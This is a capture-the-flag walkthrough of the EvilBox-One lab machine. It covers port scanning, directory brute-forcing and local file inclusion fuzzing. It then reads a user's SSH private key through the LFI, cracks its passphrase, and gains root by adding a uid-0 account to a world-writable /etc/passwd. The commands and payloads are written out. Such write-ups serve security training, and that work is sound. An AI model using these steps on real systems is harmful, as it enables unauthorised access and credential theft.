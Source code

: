 ```yaml
---
categories: [Proving Grounds Play, Walkthrough]
tags: [PrivEsc]
---
```



Lets find out the IP of this Machine First ➡️

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled.png)

```jsx
IP : 10.10.2.51
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/EvilBox-One]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.51
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 16:54 IST
Nmap scan report for 10.0.2.51
Host is up (0.00066s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 4495500be473a18511ca10ec1ccbd426 (RSA)
|   256 27db6ac73a9c5a0e47ba8d81ebd6d63c (ECDSA)
|_  256 e30756a92563d4ce3901c19ad9fede64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:94:F8:26 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%201.png)

Now lets see the Directory Listing files —>

```bash
feroxbuster -u http://10.0.2.51:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o ferox_80.json --depth 2 -C 403,404 -x php,html,txt,js
```

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%202.png)

Now lets look at `/secret/evil.php` file —>

Since it is blank I think this url is vulnerable to directory traversal attack , but for that I need a parameter on which basis I am gona search the `/etc/passwd` file —>   

Lets use burpsuite for that —>

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%203.png)

parameter fuzzing list ⤵️

[https://github.com/StrongShiv8/Wordlists-/blob/main/fuzz-lfi-params-list.txt](https://github.com/StrongShiv8/Wordlists-/blob/main/fuzz-lfi-params-list.txt)

Lets see the result on web —>

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%204.png)

Now I know user mowree so lets access for ssh private key through `/home/mowree/.ssh/id_rsa` →

[http://10.0.2.51/secret/evil.php?command=/home/mowree/.ssh/id_rsa](http://10.0.2.51/secret/evil.php?command=/home/mowree/.ssh/id_rsa)

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%205.png)

Lets get this file and decode its paraphrase value through john-the-ripper tool →

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%206.png)

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%207.png)

so the paraphrase for ssh login is : `unicorn`

Now its time for ssh login →

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%208.png)

Lets check what we got here →

```bash
mowree@EvilBoxOne:~$ ls -al
total 32
drwxr-xr-x 4 mowree mowree 4096 ago 16  2021 .
drwxr-xr-x 3 root   root   4096 ago 16  2021 ..
lrwxrwxrwx 1 root   root      9 ago 16  2021 .bash_history -> /dev/null
-rwxr-xr-x 1 mowree mowree  220 ago 16  2021 .bash_logout
-rwxr-xr-x 1 mowree mowree 3526 ago 16  2021 .bashrc
drwxr-xr-x 3 mowree mowree 4096 ago 16  2021 .local
-rwxr-xr-x 1 mowree mowree  807 ago 16  2021 .profile
drwxr-xr-x 2 mowree mowree 4096 ago 16  2021 .ssh
-r-------- 1 mowree mowree   31 ago 16  2021 user.txt
mowree@EvilBoxOne:~$ cat user.txt 
56Rbp0soobpzWSVzKh9YOvzGLgtPZQ
mowree@EvilBoxOne:~$
```

Now lets see some file permissions and looks like I got something interesting →

```bash
mowree@EvilBoxOne:/var/backups$ ls -al /etc/passwd
-rw-rw-rw- 1 root root 1398 ago 16  2021 /etc/passwd
```

Now I have the permission to write so lets add a user name as `shiv` and `password` as password with root privileges.

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%209.png)

Now lets switch to shiv user —>

```bash
mowree@EvilBoxOne:~$ su shiv
Contraseña: 
root@EvilBoxOne:/home/mowree# whoami
root
root@EvilBoxOne:/home/mowree# cd ~
root@EvilBoxOne:~# ls -al
total 24
drwx------  3 root root 4096 ago 16  2021 .
drwxr-xr-x 18 root root 4096 ago 16  2021 ..
lrwxrwxrwx  1 root root    9 ago 16  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 ago 16  2021 .bashrc
drwxr-xr-x  3 root root 4096 ago 16  2021 .local
-rw-r--r--  1 root root  148 ago 17  2015 .profile
-r--------  1 root root   31 ago 16  2021 root.txt
root@EvilBoxOne:~# cat root.txt 
36QtXfdJWvdC0VavlPIApUbDlqTsBM
root@EvilBoxOne:~#
```